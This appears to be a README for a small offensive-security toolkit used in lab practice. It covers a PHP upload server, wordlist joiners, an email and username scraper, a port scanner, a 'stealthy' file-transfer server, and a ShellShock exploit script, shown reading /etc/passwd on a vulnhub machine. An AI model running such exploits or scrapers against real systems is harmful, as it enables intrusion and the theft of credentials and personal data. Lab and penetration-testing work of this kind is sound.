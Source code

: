 ## jml-php-upload.php
This is just an easy way to quickly transfer files via PUT or HTTP. The file will be uploaded to the directory from where the server is started. Make sure the directory has the correct permissions in order for this to work properly. (rename the file to index.php for easier handling)

Can be used in different ways.
Use it either with php-server, apache2, or nginx.

For use with php-server
```
php -S 0.0.0.0:80
```
a) Either navigate to the address and use the form and upload a file

or

b) Use curl with PUT¹ or POST.
```
curl -XPOST -F "file=@file.txt" -F "path=/" http://ip-to-your-php-server/
```
(1) For PUT you need to use a PUT supported webserver, like nginx or apache2. Once configured properly you can use this command.
```
curl -T file.txt http://ip-to-your-PUT-server/
```
# List tools

## Listjoiner
Easy as it sounds. Joins two lists of your choice into a file with a ":" seperator. 
```
./jml-listjoiner.py firstnames.txt surnames.txt joinednames.txt
```
## Listworker
Easy as it sounds. Joins two lists of your choice into a file with a specified seperator.
```
./jml-listworker.py firstnames.txt surnames.txt joinednames.txt ':'
```

# Scraping tools

## egrabber.py
Grabs the emails of a site and parses emails and usernames into seperate files.
```
./jml-egrabber.py http://localhost
```

## MAC-lookup.py
Searches for company and country of provided MAC address
![bild](https://user-images.githubusercontent.com/123998153/228343138-110a744d-e8f4-4a04-9a2e-2f614a5803ce.png)
```
./jml-MAC-lookup.py 
xx:xx:xx:xx:xx:xx
```
# Scanning Tools 

## jml-portscanner.py
Super simple not so good portscanner.
```
└─$ python3 jml-portscanner.py -H 127.0.0.1 -P 65535

 +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
 |J|M|L|-|p|o|r|t|s|c|a|n|n|e|r|
 +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+

[+] Port 21 is open
[+] Port 22 is open
[+] Port 44 is open
[+] Port 80 is open
[+] Port 65535 is open
```

## jml-filetransfer.py
Simple and stealthy webserver which allows file PUT and file POST for encrypted filetransfer..
```
└─$ ./jml-filetransfer.py  -h
usage: jml-filetransfer.py [-h] [-i I] [-p P]

options:
  -h, --help  show this help message and exit
  -i I        specify ip to listen on.
  -p P        specify port to listen on.

```

# Other Tools

## jml-ShellShock.py
Easy script to exploit the shellshock vulnerability. Only tested on virutal vulnhub machine symfonos3.
```
./jml-ShellShock.py -U http://symfonos.local/cgi-bin/underworld/
[+] What is your command?: cat /etc/passwd
```



